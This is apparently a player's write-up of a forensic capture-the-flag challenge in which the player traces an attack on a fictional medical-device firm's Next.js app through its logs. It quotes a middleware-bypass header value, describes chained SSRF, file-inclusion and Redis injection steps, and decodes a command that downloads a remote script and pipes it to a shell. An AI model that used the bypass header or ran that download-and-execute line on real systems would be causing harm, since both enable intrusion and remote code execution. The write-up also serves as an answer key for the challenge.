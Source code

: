 

##### Sherlock Scenario

NeuroSync™ is a leading suite of products focusing on developing cutting edge medical BCI devices, designed by the Korosaki Coorporaton. Recently, an APT group targeted them and was able to infiltrate their infrastructure and is now moving laterally to compromise more systems. It appears that they have even managed to hijack a large number of online devices by exploiting an N-day vulnerability. Your task is to find out how they were able to compromise the infrastructure and understand how to secure it.



Q1: What version of Next.js is the application using?

A: 15.1.0

In the interface.log.

![](../../Img/Pasted%20image%2020250429152722.png)

Q2: What local port is the Next.js-based application running on?

A: 3000

Q1 screenshot.

Q3: A critical Next.js vulnerability was released in March 2025, and this version appears to be affected. What is the CVE identifier for this vulnerability?

A: CVE-2025-29927

Googling it.

![](../../Img/Pasted%20image%2020250429153028.png)

https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass

Q4: The attacker tried to enumerate some static files that are typically available in the Next.js framework, most likely to retrieve its version. What is the first file he could get?

A: main-app.js

Inside the access.log, the first thing that we can notice it's the files that tried to access.

![](../../Img/Pasted%20image%2020250429153550.png)

The 2 files that we are interested in are main-app.js and page.js (the ones with code 200)

![](../../Img/Pasted%20image%2020250429153738.png)

![](../../Img/Pasted%20image%2020250429153724.png)

main-app.js seems like the answer.

Q5: Then the attacker appears to have found an endpoint that is potentially affected by the previously identified vulnerability. What is that endpoint?

A: /api/bci/analytics

After the first .js files the attacker searched for. There is only this endpoint.

![](../../Img/Pasted%20image%2020250429153924.png)

Q6: How many requests to this endpoint have resulted in an "Unauthorized" response?

A: 5

Unauthorized code is 401 (https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Status/401)

![](../../Img/Pasted%20image%2020250429154143.png)

Q7: When is a successful response received from the vulnerable endpoint, meaning that the middleware has been bypassed?

A: 2025-04-01 11:38:05

Search for the first 200 response from that endpoint.

![](../../Img/Pasted%20image%2020250429154309.png)

Q8: Given the previous failed requests, what will most likely be the final value for the vulnerable header used to exploit the vulnerability and bypass the middleware?

A: x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware

This article says it is. (https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass)

We can also see where the attack started in the interface.log file. It went from 1 to 4 middleware. But those were the ones that didn't work.

![](../../Img/Pasted%20image%2020250429154442.png)

After those 4 ones it worked, so we can assume that there were 5 middleware

![](../../Img/Pasted%20image%2020250429154736.png)

Q9: The attacker chained the vulnerability with an SSRF attack, which allowed them to perform an internal port scan and discover an internal API. On which port is the API accessible?

A: 4000

Just opening the data-api.log file we see this.

![](../../Img/Pasted%20image%2020250429154941.png)

Q10: After the port scan, the attacker starts a brute-force attack to find some vulnerable endpoints in the previously identified API. Which vulnerable endpoint was found?

A: /logs

In the same log file, following the brute force attack we cans see that one worked (bc it found a internal file).

![](../../Img/Pasted%20image%2020250429155315.png)

Q11: When the vulnerable endpoint found was used maliciously for the first time?

A: 2025-04-01 11:39:01

That would be when it accessed a file for the first time.

Q12: What is the attack name the endpoint is vulnerable to?

A: Local File Inclusion

That would be an LFI because it's passing the path of the file that the attacker wants to read in the logFile parameter that the /logs endpoint uses.

Q13: What is the name of the file that was targeted the last time the vulnerable endpoint was exploited?

A: secret.key

Scrolling down in search for the last one, we found this.

![](../../Img/Pasted%20image%2020250429155754.png)

Q14: Finally, the attacker uses the sensitive information obtained earlier to create a special command that allows them to perform Redis injection and gain RCE on the system. What is the command string?

A: OS_EXEC|d2dldCBodHRwOi8vMTg1LjIwMi4yLjE0Ny9oNFBsbjQvcnVuLnNoIC1PLSB8IHNo|f1f0c1feadb5abc79e700cac7ac63cccf91e818ecf693ad7073e3a448fa13bbb

As per the question, we check the redis.log file and find this weird command.

![](../../Img/Pasted%20image%2020250429155939.png)

Q15: Once decoded, what is the command?

A: wget http://185.202.2.147/h4Pln4/run.sh -O- | sh

I opened cyberchef 

